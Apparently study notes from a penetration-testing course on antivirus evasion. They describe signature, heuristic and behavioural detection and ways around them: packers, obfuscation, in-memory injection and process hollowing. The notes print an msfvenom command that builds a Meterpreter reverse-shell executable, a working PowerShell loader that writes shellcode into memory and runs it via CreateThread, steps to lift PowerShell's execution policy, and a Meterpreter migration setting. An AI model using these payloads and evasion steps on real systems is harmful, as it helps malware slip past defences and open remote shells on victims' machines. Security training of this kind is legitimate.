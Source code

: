 ### Antivirus Evasion

First generate a reverse shell:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f exe > binary.exe

https://www.virustotal.com/#/home/upload

# Detection Method

## Signature-based

blacklist technology
a continuous series of bytes that uniquely identify it -> change or obfuscating the content

## Heuristic and Behavioral-Based Detection

Heuristic-Based Detection is a detection method that relies on various rules and algorithms to determine whether or not an action is considered malicious

Behavioral-Based: This is often achieved by executing the file in question in an emulated environment, such as a small virtual machine, and looking for behaviors or actions that are considered malicious.

# Bypassing

## On-disk evasion

Packers, smaller, functional equivalent -> new signature, bypass older antivirus detection

### Obfuscate

Re-organize and mutate code, more difficult to reverse engineer , dead code

### Ciphers

Add a decryption step, in memory decryption, invisible to malware detection

virtual machine emulation detection, detect if it is executed in a virtual machine environment

### Software Protectors

## in-memory evasion

PE injection, manipulation of its own memory, does not write any thing to disk

### Remote Process Memory Injection

### Reflective DLL injection

write their own version of api to load in memory dll

### Process Hollowing

suspend a benign process, then image changed, resume executon

### Inline Hook

modify memory, inject a hook, handler, to malicious code

# Practical example

Target a specific anti-virus product

# in-memory injection

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc =
Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i),
$sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

use load code into the memory, then execute with create thread. in powershell script

prevent from execution:

```
C:\Users\offsec\Desktop> powershell .\av_test.ps1
.\av_test.ps1 : File C:\Users\offsec\Desktop\av_test.ps1 cannot be loaded because
running scripts is disabled on this
system. For more information, see about_Execution_Policies at
http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\av_test.ps1
+ ~~~~~~~~~~~~~
+ CategoryInfo : SecurityError: (:) [], PSSecurityException
+ FullyQualifiedErrorId : UnauthorizedAccess


C:\Users\offsec\Desktop> powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Undefined
PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope
CurrentUser
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Unrestricted
```

# Shelter

stealth mode: restore the execution of original flow after finish the injected code

Session died after original code exit

we can set up an AutoRunScript to migrate our Meterpreter to a separate process immediately after session creation

```
set AutoRunScript post/windows/manage/migrate
```